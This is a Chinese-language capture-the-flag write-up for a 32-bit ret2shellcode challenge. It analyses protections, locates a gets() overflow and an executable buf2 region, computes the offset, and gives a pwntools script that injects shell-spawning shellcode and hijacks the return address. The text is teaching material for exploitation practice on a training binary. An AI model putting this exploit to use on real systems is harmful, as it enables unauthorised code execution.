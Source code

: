 - 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 没有开启“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230418172044986](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053154.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。进一步分析程序，发现程序将输入的字符串`s`拷贝到`buf2`处，考虑`buf2`是否有一些利于利用的特殊性质。

![image-20230418172514969](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304181725995.png)

经过查找发现`buf2`在BSS段`0x0804A080`中，继续检查该内存位置的权限属性。

![image-20230418192259001](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053559.png)

对`main()`函数下断点，通过vmmap检查发现`0x0804A000`-`0x0804B000`具有可读可写可执行权限。那么通过`gets()`输入的内容在被拷贝到`buf2`后也可执行。

因此构思获得shell的攻击流程如下：

1. 构造shellcode
2. 通过`gets()`输入shellcode并构造缓冲区溢出攻击，劫持控制流。
3. 覆盖`main()`函数的返回地址为`buf2`的地址。
4. 当`main()`函数执行完毕退出时，eip指针返回到`buf2`中的shellcode继续执行，从而弹出一个shell供攻击者使用。

### 攻击复现

接下来实现攻击，同上一题，要先确定`main()`函数返回地址。

![image-20230418205135752](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053039.png)

![image-20230418205656888](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053577.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x08048593`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffcee0`，其存放的内容即字符串`s`的地址为`0xffffcefc`；基址指针寄存器ebp的地址为`0xffffcf68`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf68-0xffffcefc=0x6c`。此时内存结构如下图所示：

![image-20230419120251020](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053903.png)

接下来编写的payload要做的就是通过`gets()`函数在`s`字符串地址开始写入shellcode，并填充任意数据直到0x6c长度，覆盖ebp（4个字节），最终改写`main()`函数的返回地址为`buf2`的地址`0x0804A080`。如下图所示：

![image-20230419120525228](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053213.png)

最后的payload如下：

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode + b'A' * ((0x6c+4) - len(shellcode)) + p32(buf2_addr))
sh.interactive()
```
